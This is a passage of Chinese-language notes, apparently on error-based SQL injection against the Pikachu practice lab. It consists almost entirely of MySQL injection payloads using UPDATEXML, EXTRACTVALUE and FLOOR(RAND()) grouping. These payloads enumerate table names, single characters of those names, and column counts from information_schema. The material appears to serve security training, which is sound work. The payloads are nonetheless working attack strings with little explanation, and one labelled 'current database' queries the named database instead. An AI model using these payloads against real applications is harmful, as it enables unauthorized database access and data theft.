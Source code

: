 ```
' OR EXTRACTVALUE(1, CONCAT(0x7e, (SELECT LENGTH(table_name) FROM information_schema.TABLES WHERE table_schema=DATABASE() LIMIT 0, 1), 0x7e)) OR '
```

```
' OR (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x7e, (SELECT LENGTH(table_name) FROM information_schema.TABLES WHERE table_schema=DATABASE() LIMIT 0, 1), 0x7e, FLOOR(RAND(0)*2)) AS a FROM information_schema.TABLES GROUP BY a) AS b)-- 
```

显示指定数据库中第一个数据表名的第一个字符

```
' OR UPDATEXML(1, CONCAT(0x7e, SUBSTR((SELECT table_name FROM information_schema.TABLES WHERE table_schema='pikachu' LIMIT 0, 1), 1, 1), 0x7e), 0) OR '
```

```
' OR EXTRACTVALUE(1, CONCAT(0x7e, SUBSTR((SELECT table_name FROM information_schema.TABLES WHERE table_schema='pikachu' LIMIT 0, 1), 1, 1), 0x7e)) OR '
```

```
' OR (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x7e, SUBSTR((SELECT table_name FROM information_schema.TABLES WHERE table_schema='pikachu' LIMIT 0, 1), 1, 1), 0x7e, FLOOR(RAND(0)*2)) AS a FROM information_schema.TABLES GROUP BY a) AS b)-- 
```

显示当前数据库中第一个数据表名的第一个字符

```
' OR UPDATEXML(1, CONCAT(0x7e, SUBSTR((SELECT table_name FROM information_schema.TABLES WHERE table_schema=DATABASE() LIMIT 0, 1), 1, 1), 0x7e), 0) OR '
```

```
' OR EXTRACTVALUE(1, CONCAT(0x7e, SUBSTR((SELECT table_name FROM information_schema.TABLES WHERE table_schema=DATABASE() LIMIT 0, 1), 1, 1), 0x7e)) OR '
```

```
' OR (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x7e, SUBSTR((SELECT table_name FROM information_schema.TABLES WHERE table_schema='pikachu' LIMIT 0, 1), 1, 1), 0x7e, FLOOR(RAND(0)*2)) AS a FROM information_schema.TABLES GROUP BY a) AS b)-- 
```

### 6.4. Columns

判断指定数据库中指定数据表中字段的个数

```
' OR UPDATEXML(1, CONCAT(0x7e, (SELECT COUNT(*) FROM information_schema.COLUMNS WHERE table_schema='pikachu' and table_name='users'), 0x7e), 0) OR '
```

```
' OR EXTRACTVALUE(1, CONCAT(0x7e, (SELECT COUNT(*) FROM information_schema.COLUMNS WHERE table_schema='pikachu' and table_name='users'), 0x7e)) OR '
```
